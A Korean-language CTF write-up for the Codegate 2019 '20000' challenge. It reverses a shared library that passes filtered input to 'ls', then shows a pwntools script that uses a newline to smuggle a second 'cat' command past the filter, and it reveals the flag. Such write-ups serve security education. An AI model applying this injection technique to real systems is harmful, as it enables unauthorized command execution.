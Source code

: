 ```yaml
---
layout: post
title: 20000
category: Pwnable
rpath: /resource/20000
tag: [binary_patch, IDA] 
---
```


**Category:** Pwnable/Reversing

**Source:** Codegate 2019 Quals.

**Points:** 6.8

**Author:** Jisoon Park(js00n.park)

**Description:** 

> nc 110.10.147.106 15959
>
> [Download]({{site.github.master}}{{page.rpath}}/c1e3a33d8932a4a61b0e0e0e49d6c9bc.zip)

## Write-up

주어진 zip 압축 파일을 열어보면 **20000**이라는 실행파일과 **20000_so.tar.gz**라는 새로운 압축 파일이 있다.

tar.gz 파일을 풀어보면 20000_so 라는 디렉토리에 이름대로 20000개의 라이브러리가 생성된다.

일단 주어진 실행파일을 먼저 실행해보자.

![img]({{page.rpath|prepend:site.baseurl}}/prob.png)

IDA를 이용해서 20000의 main() 함수를 살펴보면, INPUT 뒤에 숫자를 입력받고, 숫자에 해당하는 라이브러리를 열어서 그 안의 test() 함수를 실행시키도록 되어있다.

![img]({{page.rpath|prepend:site.baseurl}}/20000_main.png)

20000개의 라이브러리의 test() 함수 중에 뭔가 취약점이 있는게 있을 것이다.

일단 몇개라도 라이브러리들을 분석해 봐야 할것 같다. 일단 만만한 lib_1.so를 열어서 test 함수를 살펴보자.

```c
__int64 test()
{
  char buf; // [rsp+0h] [rbp-40h]
  __int16 v2; // [rsp+30h] [rbp-10h]
  unsigned __int64 v3; // [rsp+38h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  memset(&buf, 0, 0x30uLL);
  v2 = 0;
  puts("This is lib_1 file.");
  puts("How do you find vulnerable file?");
  read(0, &buf, 0x32uLL);
  system("exit");
  return 0LL;
}
```

decompile 결과는 위와 같다. read()에서 2 byte overflow가 발생하지만, overflow로 덮어써지는 v2 변수는 별달리 써먹을데가 없을 것 같다. (심지어 read 후에 바로 종료한다.)

다른 몇개 라이브러리를 열어봤지만 별다른 차이를 발견할 수 없었다. 이 정도라면 다른 라이브러리도 동일한거 아닌가 하는 생각에 뭔가 다를게 있을까 싶어 라이브러리들의 크기를 한번 살펴보았다.

![img]({{page.rpath|prepend:site.baseurl}}/file_size.png)

4가지 종류의 라이브러리밖에 없는 것 같다.(각 크기별로 5000개씩 있었다.) 이 4가지만 살펴보면 될 듯 하다. find의 옵션을 활용하면 특정 크기를 갖는 파일을 찾을 수 있을 것 같지만, 나는 잘 모르겠으니 그냥 _ls -l | grep [filesize] | head_ 를 이용해서 찾아보았다.

6176, 5192, 6200 byte 크기의 라이브러리는 lib_1.so와 동일한 test 함수를 갖고 있었다.

크기가 가장 큰 6224 byte의 라이브러리의 test 함수는 뭔가 달랐다. 일단 그 중의 하나인 lib_10002.so의 test 함수를 살펴보자.

![img]({{page.rpath|prepend:site.baseurl}}/10002.png)

이 test 함수는 입력값을 lib_12719.so의 filter1 함수와 lib_317.so의 filter2 함수를 거친 후 **ls "%s"** 형태로 실행시켜 주고 있었다. command injection 문제인가 보다.

lib_12719.so의 filter1 함수와 lib_317.so의 filter2 함수는 아래와 같다.

![filter]({{page.rpath|prepend:site.baseurl}}/filter.png)

이 필터는 "bin", "sh", "bash" 문자열과 함께 아래의 문자열이 있는지 거른다.

![img]({{page.rpath|prepend:site.baseurl}}/filter_char.png)

sh 실행이 안되고 ;과 pipe, and, or, redirection 등이 막혀 있어서 ls 외의 다른 명령어 실행이 어렵다.

command injection 관련 [문서](https://github.com/lucyoa/ctf-wiki/tree/master/web/command-injection)를 찾아보자.

필터링 하는 문자열 중에 newline이 없으므로 이를 이용하는 [exploit]({{site.github.master}}{{page.rpath}}/ex.py)을 작성하였다.

```python
from pwn import *

p = remote("110.10.147.106", 15959)
p.recvuntil(": ")
p.sendline(str(10002))
print(p.recvuntil("?"))

p.sendline('." ' + '\n' + 'cat ??a? "')

p.interactive()
```

실행 결과, 원격 디렉토리의 내용과 함께 flag 값을 확인할 수 있었다.

![img]({{page.rpath|prepend:site.baseurl}}/flag.png)

Flag : **flag{Are_y0u_A_h@cker_in_real-word?}**
